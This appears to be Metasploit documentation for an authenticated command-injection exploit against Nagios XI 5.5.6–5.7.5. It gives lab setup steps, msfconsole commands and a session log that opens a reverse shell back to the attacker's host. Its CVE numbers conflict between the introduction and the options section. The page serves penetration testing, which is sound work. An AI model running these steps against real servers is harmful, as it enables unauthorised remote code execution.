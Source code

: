 ## Vulnerable Application
This module exploits CVE-2021-25926, CVE-2021-25927, and CVE-2021-25928: OS command injection vulnerabilities
in `/nagiosxi/config/monitoringwizard.php` that enable an authenticated user to achieve remote code execution
on NagiosXI from versions 5.5.6 to 5.7.5 as the `apache` user. There are three vulnerable configuration wizards
(`windowswmi`, `switch`, `cloud-vm`) that use two vulnerable URL parameters
(`ip_address`, `plugin_output_len`). The `windowswmi` configuration wizard uses the
`plugin_output_len` parameter, while `switch` and `cloud-vm` use the `ip_address` parameter.

The module's `check` method takes advantage of the `Msf::Exploit::Remote::HTTP::NagiosXi` mixin in order to authenticate
to the target and obtain the version of Nagios XI installed, which is then used to check if the target is running a version
of NagiosXI between versions 5.5.6 and 5.7.5.

### Installation Steps
Note: The module can attempt to complete the configuration steps after NagiosXI has been installed.

#### Pre-installed OVA
1. Download an OVA with NagiosXI installed
    1. An OVA with a vulnerable NagiosXI 5.7.5 application can be downloaded from 
    Nagios [here](https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.7.5-64.ova).
    2. To download other vulnerable versions, replace the version number in the URL with the desired version.
2. Configure the NagiosXI installation
    1. The OVA has NagiosXI running on startup. Launch the VM and visit the VM's IP in a browser.
    2. Go through defaults on the install. When you get to Admin Account Settings, configure the `nagiosadmin`
    user's password and whether you'd like to force HTTPS.
    3. Login as the `nagiosadmin` user and accept the license agreement when prompted.

#### Manual Install on Linux
Note: NagiosXI can only be installed on specific operating systems (RHEL, CentOS, Oracle Linux, Debian, Ubuntu).
Supported version numbers can be found in the installation guide
[here](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf). Older versions of
NagiosXI might require older versions of the operating systems mentioned. Consult the specific version's documentation if errors occur
on newer distributions.

1. Download NagiosXI
    1. Choose a version between 5.5.6 and 5.7.5 from [here](https://www.nagios.com/downloads/nagios-xi/older-releases/)
2. Install NagiosXI with the following commands
    1. `tar xzf xi-5.7.5.gz`
    2. `cd nagiosxi`
    3. `./fullinstall`
3. Configure the NagiosXI installation
    1. Visit the installed NagiosXI application in a web browser.
    2. Go through defaults on the install. When you get to Admin Account Settings, configure the `nagiosadmin`
    user's password and whether you'd like to force HTTPS.
    3. Login as the `nagiosadmin` user and accept the license agreement when prompted.

### Troubleshooting Installation
- NagiosXI doesn't show it's ip address
  - Login as the `root` user with `nagiosxi` as the password, and run `ip a` to get the IP
  - Ensure it's on a network accessible from your attacking machine (e.g. Nat network instead of Bridged)
- NagiosXI fails when attempting to login manually with an "NSP Sorry Dave" message
  - The NagiosXI installation is likely out of sync with its date/time.
  - Set it manually with `timedatectl set-ntp false` and `timedatectl set-time 2023-02-06 17:34:00` but with the actual time and date

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/nagios_xi_configwizards_authenticated_rce`
- [ ] `set RHOSTS TARGET_IP`
- [ ] `set RPORT 443`
- [ ] `set SSL true`
- [ ] `set USERNAME USER`
- [ ] `set PASSWORD PASSWORD`
- [ ] `set TARGET_CVE CVE-2021-25296`
- [ ] `set LHOST YOUR_IP`
- [ ] `set LPORT YOUR_LISTENING_PORT`
- [ ] `run`

## Options

### USERNAME
A valid NagiosXI username, which can be for an administrator or regular user.

### PASSWORD
The password for the provided NagiosXI username.

### TARGET_CVE
The CVE to target. Each CVE corresponds to a specific target:
- CVE-2021-25296: `windowswmi` configuration wizard RCE via the `plugin_output_len` URL parameter
- CVE-2021-25297: `switch` configuration wizard RCE via the `ip_address` URL parameter
- CVE-2021-25298: `cloud-vm` configuration wizard RCE via the `ip_address` URL parameter.

Note that CVE-2021-25298 is in the `cloud-vm` configuration wizard but we set the `wizard`
URL parameter value to `digitalocean` in order to make sure we use this wizard; there are
potentially other values that could be used here.

## Scenarios

### CentOS7 running NagiosXI 5.5.6 to 5.7.5 (Official OVA)
```
msf6 > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOSTS 192.168.104.17
RHOSTS => 192.168.104.17
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.104.2
LHOST => 192.168.104.2
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LPORT 8443
LPORT => 8443
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > run

[*] Started reverse SSL handler on 192.168.104.2:8443 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command shell session 1 opened (192.168.104.2:8443 -> 192.168.104.17:56742) at 2023-02-06 13:35:49 -0500

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```
